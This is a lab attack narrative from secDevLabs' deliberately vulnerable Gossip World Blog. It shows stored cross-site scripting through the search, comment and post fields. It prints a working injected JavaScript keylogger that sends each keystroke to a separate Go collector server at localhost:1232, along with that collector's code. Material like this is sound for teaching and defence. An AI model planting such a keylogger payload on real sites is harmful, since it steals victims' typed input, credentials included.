






# Attack Narrative - Gossip World Blog (XSS)

The main goal of this documentation is to describe how a malicious user could exploit a Cross-Site Scripting vulnerability intentionally installed on Gossip World Blog from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a7/gossip-world) yet, you should check them before reading this narrative.

----

## Note: This attack narrative works best in Mozilla Firefox.

## 👀

After inspecting the application, it is possible to identify that some entries are not sanitized and can be  executed on web browser. It occurs on *search*, *comment* and *post* fields. The following images show this behavior when the text  **\<script>alert(1)\</script>** is used as an input on these fields.

Searching for a post:
   
   

Adding a new comment to a post:
   
   

Adding a new post:
   
   


The missing input validation allows a malicious user inserts some scripts that will be persisted in the server and can be executed on victims browsers every time they access the routes that contains these scripts.

Now we will demonstrate how to get all keyboard inputs from a user by persisting a malicious code in the server.

First, we create a simple API in golang that logs all received requests. The code is shown bellow:

   ```go
   package main

   import (
      "fmt"
      "github.com/labstack/echo"
   )

   func main() {
      e := echo.New()
      e.GET("/:k", handler)
      e.Logger.Fatal(e.Start(":1232"))
   }

   func handler(c echo.Context) error {
      fmt.Println(c.Request().RemoteAddr, c.Param("k"))
      return nil
   }
   ```

Now, we insert a new post through **/newgossip** route using the following code in text field:

```html
   <script>
   var k="";
   document.onkeypress=function(e) {
      e = e || window.event;
      k+=e.key;
      var i=new Image;
      i.src="http://localhost:1232/"+k;
   }
   </script>
```

This code implements a keylogger by capturing all keyboard inputs from user and send them to the API created before.

   


When a victim access the post, the browser will interpret the text between the script tag as a code and will execute it secretly. This behavior is shown bellow.

In the first image, we are inserting some text in *comment* and *search* fields and the second image shows the server log containing all these inputs.





